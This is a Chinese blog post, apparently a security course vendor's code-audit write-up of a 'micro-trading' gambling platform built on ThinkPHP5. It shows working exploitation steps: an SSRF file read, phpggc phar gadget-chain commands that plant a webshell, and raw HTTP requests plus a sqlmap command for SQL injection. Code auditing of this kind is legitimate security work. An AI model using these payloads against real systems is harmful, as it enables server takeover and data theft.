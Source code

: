 #  代码审计资金盘软盟微交易系统  
moonsec  moonsec   2025-06-19 03:47  
  
```
免责声明：本公众号所提供的文字和信息仅供学习和研究使用，不得用于任何非法用途。
我们强烈谴责任何非法活动，并严格遵守法律法规。
读者应该自觉遵守法律法规，不得利用本公众号所提供的信息从事任何违法活动。
本公众号不对读者的任何违法行为承担任何责任。
```  
  
🎯 如果你正在学习网络安全、渗透测试或者代码审计，希望能系统掌握从基础到实战的完整技能体系，我的渗透测试课程现在正在进行**618限时特惠活动**  
！  
  
🧠 课程内容包含：  
- Web漏洞挖掘与利用  
  
- 内网渗透与横向移动  
  
- 代码审计（PHP/Java/Net）  
  
- 实战打点项目 + 红队思维  
  
🚀 教学以实战为主，适合初学者和进阶选手。  
  
🎁 现在报名，享受 618 限时优惠  课程详细 [【618活动】暗月安全攻防课](https://mp.weixin.qq.com/s?__biz=MzAwMjc0NTEzMw==&mid=2653589060&idx=1&sn=3693ba2df44c8cf34f519b502441ea19&scene=21#wechat_redirect)  
  
  
📩 想了解课程和咨询，可添加我微信  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/Jvbbfg0s6ADLVnPMqka8BMecE069y2SpGFVEQPwUdqQ2sn0voIhuZgWSHz6KsyBnQJjacqJrDuW1f8GLueFOWQ/640?wx_fmt=jpeg&from=appmsg "")  
  
### 1.简介  
  
所谓“微交易系统”通常指的是：  
  
投资者对某种资产（如汇率、商品、比特币等）价格的短时间涨跌进行预测；  
  
投注金额非常小，时长很短（如 30 秒、60 秒）；  
  
声称“稳赚不赔、秒结收益”；  
  
通过系统平台下注、自动判断输赢。  
  
听起来像赌博？对，因为它本质上就是一种金融赌博行为，而很多“微交易平台”背后的系统其实可以后台控制涨跌结果，操纵客户盈亏。  
### 2.系统搭建  
  
php7.2 mysql8 apache  
  
使用phpstudy创建网站  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/Jvbbfg0s6ADLVnPMqka8BMecE069y2Sp9FyITEWhic9A30yiaxpYpicFYCWTthh7CViaPQtc5IEgc6tdoh7qw9M8nw/640?wx_fmt=jpeg&from=appmsg "")  
  
 创建数据库  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/Jvbbfg0s6ADLVnPMqka8BMecE069y2SpHT9jI34hqLXLhnOaz8mICwEQPMyUbvAtf9IZFg5saHdfvcIsarGPag/640?wx_fmt=jpeg&from=appmsg "")  
  
还需要伪静态  
```
<IfModule mod_rewrite.c>Options +FollowSymlinks -MultiviewsRewriteEngine onRewriteCond %{REQUEST_FILENAME} !-dRewriteCond %{REQUEST_FILENAME} !-fRewriteRule ^(.*)$ index.php?/$1 [QSA,PT,L]</IfModule>
```  
  
设置完成后访问  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/Jvbbfg0s6ADLVnPMqka8BMecE069y2SpmpyBurFOVo4VW0tW9r6OrLeIBicfbKxibDDlsPjzKBxyUqPAib4icAHYsA/640?wx_fmt=jpeg&from=appmsg "")  
### 3.thinkphp5基础知识  
  
**访问请求**  
  
ThinkPHP5.0在没有启用路由的情况下典型的URL访问规则是：  
  
http://serverName/index.php  
（或者其它应用入口文件）/模块/控制器/操作/[参数名/参数值...]  
  
支持切换到命令行访问，如果切换到命令行模式下面的访问规则是：  
  
php.exe index.php(或者其它应用入口文件） 模块/控制器/操作/[参数名/参数值...]  
  
可以看到，无论是URL访问还是命令行访问，都采用PATH_INFO访问地址，其中PATH_INFO的分隔符是可以设置的。  
  
注意：5.0取消了URL模式的概念，并且普通模式的URL访问不再支持，但参数可以支持普通方式传值，例如：  
  
php.exe index.php(或者其它应用入口文件） 模块/控制器/操作?参数名=参数值&...  
  
如果不支持PATHINFO的服务器可以使用兼容模式访问如下：  
  
http://serverName/index.php  
（或者其它应用入口文件）?s=/模块/控制器/操作/[参数名/参数值...]  
  
必要的时候，我们可以通过某种方式，省略URL里面的模块和控制器。  
  
更多thinkphp的知识访问   
https://www.kancloud.cn/manual/thinkphp5/118008  
### 3.ssrf 漏洞  
  
漏洞文件 application/index/controller/Api.php#curl  
  
存在curl方法 使用curl访问网页。可以直接调用存在ssrf漏洞   
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/Jvbbfg0s6ADLVnPMqka8BMecE069y2Spbq6UvXqr5CXd6HlHqblg7WRD6krjNxNFyedgJPA1UBLUhL765s98jQ/640?wx_fmt=jpeg&from=appmsg "")  
  
可以利用它读取本地文件 payload  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/Jvbbfg0s6ADLVnPMqka8BMecE069y2SpCibCOFgOBdp27OGnxnXFYO2j71oqRt1wzmlXEZiaYqMX1XSy4clySNMg/640?wx_fmt=jpeg&from=appmsg "")  
### 4.反序列化漏洞RCE  
  
thinkphp5是存在反序列化漏洞的 查看thinkphp的版本  
```
thinkphp\base.php
```  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/Jvbbfg0s6ADLVnPMqka8BMecE069y2SpanUczRCHEZU6Fp6TE7qj4wt3PSLnWQaL2SHC0zibfaqK221tdVicXM0w/640?wx_fmt=jpeg&from=appmsg "")  
  
 工具下载   
https://github.com/ambionics/phpggc  
 生成对应版本的反序列化文件。  
  
列出 thinkphp反序列化利用链   
```
└─$ ./phpggc -l thinkphpGadget Chains-------------NAME             VERSION         TYPE                  VECTOR        I    ThinkPHP/FW1     5.0.4-5.0.24    File write            __destruct    *    ThinkPHP/FW2     5.0.0-5.0.03    File write            __destruct    *    ThinkPHP/RCE1    5.1.x-5.2.x     RCE: Function Call    __destruct    *    ThinkPHP/RCE2    5.0.24          RCE: Function Call    __destruct    *    ThinkPHP/RCE3    -6.0.1+         RCE: Function Call    __destruct         ThinkPHP/RCE4    -6.0.1+         RCE: Function Call    __destruct     
```  
  
可以使用ssrf漏洞使用phar协议触发漏洞  
```
./phpggc ThinkPHP/FW1 目标目录 本地文件 -p phar -o test.phar./phpggc ThinkPHP/FW1 D:\\phpstudy_pro\\WWW\\www.d2.com\\shell.php 1.php -p phar -o test.phar
```  
  
通过文件上传把phar文件上传到目标目录  
  
漏洞文件 application/index/controller/Msm.php  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/Jvbbfg0s6ADLVnPMqka8BMecE069y2SpjM8wdytsSpWx3SLXib1QxDpDcVjoYUpPTd3hubk8ywwGicBGZ5yyBr9w/640?wx_fmt=jpeg&from=appmsg "")  
  
文件操作函数能触发phar协议  
```
GET /index/Msm/curl_get?url=phar://test.phar HTTP/1.1Host: www.d2.comCookie: PHPSESSID=6mqnurl9q40pi0nq654fcqlusp; think_var=zh-cn; rememberme=dkewl; pid18=3085.04004; pid11=254.2017; pid10=230.7014; pid5=53.10016; pid4=5.469; pid3=3.012; pid2=28.846; pid1=26.799Upgrade-Insecure-Requests: 1Cache-Control: max-age=0User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36Accept-Encoding: gzip, deflateAccept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7Accept-Language: zh-CN,zh;q=0.9
```  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/Jvbbfg0s6ADLVnPMqka8BMecE069y2SpJ9fAwnpS00v2X7uV6dTCA6FBKnu7Rzic5rFsLOIFKZQ8Y0f9ibVuEDCw/640?wx_fmt=jpeg&from=appmsg "")  
  
在根目录生成shell文件  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/Jvbbfg0s6ADLVnPMqka8BMecE069y2Sp72QamX6rs9SBmX9CUp0n90XR80p1AmoEEic3OXFYhuwibayQbv9x6vGA/640?wx_fmt=jpeg&from=appmsg "")  
  
访问   
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/Jvbbfg0s6ADLVnPMqka8BMecE069y2SpLrvhcvvltZqItcOhOOukvalXIsUOJicmiaKBQ5gBwszVMf5STcSTuhXw/640?wx_fmt=jpeg&from=appmsg "")  
### 5.SQL注入漏洞  
  
漏洞位置 application/index/controller/Goods.php#ajaxkdata  
  
在thinkphp5中 使用 where('pid='.$pid)  
这样拼接字符串会造成SQL注入  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/Jvbbfg0s6ADLVnPMqka8BMecE069y2Sp5gOwlsicF01DhPnXIzvNiardRzzmGlHicic2DQpic1M4FkQKic6iamSWgdcSw/640?wx_fmt=jpeg&from=appmsg "")  
  
payload url需要登录才能访问  
```
GET /index/Goods/ajaxkdata?pid=1' HTTP/1.1Host: www.d2.comCookie: PHPSESSID=6mqnurl9q40pi0nq654fcqlusp; think_var=zh-cn; rememberme=dkewl; pid18=3085.04004; pid11=254.2017; pid10=230.7014; pid5=53.10016; pid4=5.469; pid3=3.012; pid2=28.846; pid1=26.799Upgrade-Insecure-Requests: 1Cache-Control: max-age=0User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36Accept-Encoding: gzip, deflateAccept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7Accept-Language: zh-CN,zh;q=0.9
```  
  
使用python sqlmap.py -r sql.txt --dbms mysql -v 注入  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/Jvbbfg0s6ADLVnPMqka8BMecE069y2SpVPicfAPodCOtPIjiawP645v8PED4DqHCFVKhb2AWQ1FUBu6eX05AwkYQ/640?wx_fmt=jpeg&from=appmsg "")  
  
  
  
  
